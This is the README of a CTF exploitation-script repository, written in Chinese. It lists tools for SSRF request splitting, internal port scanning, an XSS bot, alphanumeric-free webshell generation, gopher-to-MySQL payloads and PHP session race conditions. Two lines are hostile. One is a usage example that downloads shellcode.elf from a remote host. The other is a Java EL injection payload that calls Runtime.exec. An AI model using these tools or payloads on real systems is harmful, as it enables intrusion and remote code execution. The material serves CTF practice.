 # CTF-Scripts

## 目录结构
```
.
├── README.md
├── javascript
│   ├── node-ssrf-split.js
│   ├── port-scan.js
│   └── xss-bot.js
├── misc
│   ├── UploadServer.py
│   ├── compress-zlib.py
│   └── download.sh
├── php
│   ├── ffi-leak.php
│   ├── geneshell.php
│   ├── geneshell2.php
│   └── serialize.php
├── thread
│   ├── contend.py
│   └── contend2.py
└── transform
    ├── convert2javabytes.py
    ├── encoding.js
    ├── gopher.py
    ├── gopher2mysql
    ├── gopher2mysql.py
    └── gopherConvert.py
```

## 文件说明

|  文件名 | 文件说明  |
|---|---|
|  encoding.js |  JS8/16进制/Unicode标准格式转换 |
|  node-ssrf-split.js | node<=8.0 http.get拆分请求构造，对于生成的数据进行encodeUR操作即可  |
|  port-scan.js | JS探测内网主机端口/内网主机  |
|  xss-bot.js | XSS机器人  |
|  serialize.php | 对于private/protected属性，序列化后S类型转换(截取phpgcc部分功能)  |
| geneshell.php  | 生成无字母webshell的字母部分，用法见p神：[无字母数字的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)  |
| geneshell2.php  |  另一种无字母Shell生成函数，无短标签  |
|  compress-zlib.php | file_get_contents生成本地临时文件，使用socket原生套接字改写Http请求&响应包。双线程发送http请求，参考36c3 CTF includer:[includer](https://ljdd520.github.io/2020/01/15/hxp-36c3-ctf-Web-%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)  |
|  ffi-leak.php | PHP7.4 FFI extension use to leak data，来源：[@cjm00n](https://cjm00n.top/CTF/tctf-2020-wp.html)  |
| gopherConvert.py  | wireshark网卡数据包转gopher数据形式  |
| gopher.py  | 生成post的gopher数据报文  |
|  gopher2mysql.py | 生成与mysql交互的gopher数据报文  |
| UploadServer.py  | 以当前目录，快速启动一个带有文件上传/下载功能代理服务器. Usage: python2 UploadServer.py 8888  |
| download.sh  | 无curl或wget情况的http下载文件请求，Usage：download.sh http://hpdoger.cn:8888/shellcode.elf > shellcode.elf  |
|contend.py |threading条件竞争模版，用来竞争php sess文件 |
| contend2.py|比较优雅的进行条件竞争模版，来自@P神 |
|convert2javabytes.py |转字符串为16进制字节码，方便java中的命令执行例如EL表达式：${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))} |
| c\perl交互readflag脚本| [readflag](https://github.com/ZeddYu/ReadFlag)|
